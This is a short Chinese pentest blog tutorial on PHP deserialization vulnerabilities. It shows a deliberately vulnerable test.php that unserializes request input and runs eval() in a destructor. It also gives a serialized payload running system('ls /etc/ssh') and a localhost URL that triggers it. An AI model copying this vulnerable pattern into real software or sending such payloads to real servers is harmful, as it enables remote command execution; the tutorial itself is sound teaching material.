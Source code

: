 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["反序列化"]
title = "PHP反序列化漏洞"
topics = ["Pentest"]

+++

### 0x00 关于反序列化漏洞
序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  

* 服务端有test.php，代码如下

```php
<?php
    class fun{
        public $msg;
        function __construct(){
            echo '__construct';
        }
        function __destruct() {
            eval($this->msg);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize($d);
    var_dump($tc);
?>
```

* 客户端可构造如下代码生成序列化后的字符串

```php
<?php
    class fun{
        public $msg;
        function __construct(){
            echo '__construct';
        }
        function __destruct() {
            eval($this->msg);
        }
    }

    $f = new fun();
    $f->msg = "system('ls /etc/ssh');";
    echo serialize($f);
?>
```

生成的序列化字符串为：```O:3:"fun":1:{s:3:"msg";s:22:"system('ls /etc/ssh');";}```

* 提交序列化字符串给服务端从而执行命令

访问```http://127.0.0.1/test.php?str=O:3:"fun":1:{s:3:"msg";s:22:"system('ls /etc/ssh');";}```即可得到/etc/ssh下的文件
